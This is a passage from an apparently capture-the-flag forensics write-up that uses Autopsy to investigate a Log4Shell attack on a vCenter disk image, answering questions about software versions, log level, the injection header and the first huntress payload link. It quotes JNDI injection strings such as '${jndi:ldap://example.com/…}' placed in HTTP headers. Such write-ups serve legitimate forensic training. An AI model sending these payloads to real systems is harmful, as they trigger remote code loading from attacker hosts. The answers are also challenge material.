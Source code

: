 ### 8. What is the version of the VMware product installed on the machine?

**6.7.0.40322**

The version of VMWare product installed can be checked via *Installed programs* can be shown under *Data Artifacts* > *Installed Programs*

![image](https://bn1304files.storage.live.com/y4mwA2vCw1haeuFwJETHlucmdHCO97vtCWhV0Ok2ZyPhFEDvE23A95ms_JDlNs7CQfhHAQ5Rjqt6Yh4xtxvyfy8UnmiIE31HoDmX8APFzoYGBglahBSh_iDTQzUl4l2jqAdqrBCv9H2TgR7ZxIWN4A9JCOwtjK0qkO6kqZflqEZQwzR0ivCuPmPuNmWMMiw6bnE5Mzduw0VzfKaEoYnl0YkYGYkHj4zosRvHsoaMkVNAPs?encodeFailures=1&width=945&height=84)

### 9. What is the version of the log4j library used by the installed VMware product?

**2.11.2**

The version of log4j library VMWare product is using can be checked in the following path via Autopsy.

`C:\Program Files\VMWare\vCenter Server\common-jars\log4j-core-2.11.2jar`

### 10. What is the log4j library log level specified in the configuration file?

**info**

This needed some digging as the log4j.properties is the main config file that keeps log4j configurations in key-value pairs. So a keyword search was done via Autopsy to look for log4j.properties file within the disk.

![image](https://bn1304files.storage.live.com/y4mUJ2QqivuVvZdwQx_WryybKHkkmrNMJ21W59cOPOv1ryYxYoryjyAPqEdk-9yQIu005WgboSV3ETIIGATltHjstcFStZuiph2BD3mcHwqXKIA6ikJ52tE3vsvcpunpHEMGhJtx0B5fWxMC0x2exh6pwol_fPL2y3opxO5MelT9RqVX8FV9D0c6VihKuiXOIvBmFA8Z0QwTO8LHRL7ct8j8E5Cbmpg1gf08x8R2Gn41fw?encodeFailures=1&width=2240&height=1312)

### 11. The attacker exploited log4shell through an HTTP login request. What is the HTTP header used to inject payload?

`X-Forwarded-For`

By searching around on google for log4shell exploit through HTTP header I come across a [blog](https://runpanther.io/blog/panthers-guide-to-log4j-exploitation-prevention-and-detection/) using below headers to inject the payload.

```text
Referer=${jndi:ldap://example.com/…}
X-Forwarded-For=${jndi:ldap://example.com/…}
User-Agent=${jndi:ldap://example.com/…}
```

With the hint given in the question, the answer was deduced.

### 12. The attacker used the log4shell.huntress.com payload to detect if vcenter instance is vulnerable. What is the first link of the log4huntress payload?

**log4shell.huntress.com:1389/b1292f3c-a652-4240-8fb4-59c43141f55a**

A search for the keyword “log4shell.huntress.com” is crafted, then found a websso.log in the Result Viewer. From the result viewer the first link of log4shell payload can be found.

